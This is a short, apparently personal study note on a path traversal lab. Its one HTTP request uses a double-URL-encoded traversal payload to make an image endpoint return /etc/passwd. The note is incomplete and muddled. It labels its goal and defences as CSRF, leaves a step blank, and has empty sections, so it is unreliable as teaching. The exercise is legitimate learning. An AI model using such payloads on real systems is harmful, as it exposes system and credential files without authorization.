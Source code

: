 ## Path Traversals
**Date completed**: 2025-05-08


### Goal

Understand the basics of CSRF

### Key concepts
- A
#### Quick Notes


### Example to Remember

1. Browse to **Product image** endpoint and intercept the request  
   `GET /image?filename=45.jpg`
2. Replace the `filename` value with  
3. Forward the request and observe the server returning the contents of `/etc/passwd`.

```http
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd HTTP/2
```


### Ways to Protect Against CSRF

🧠 What I Learned
  - 
  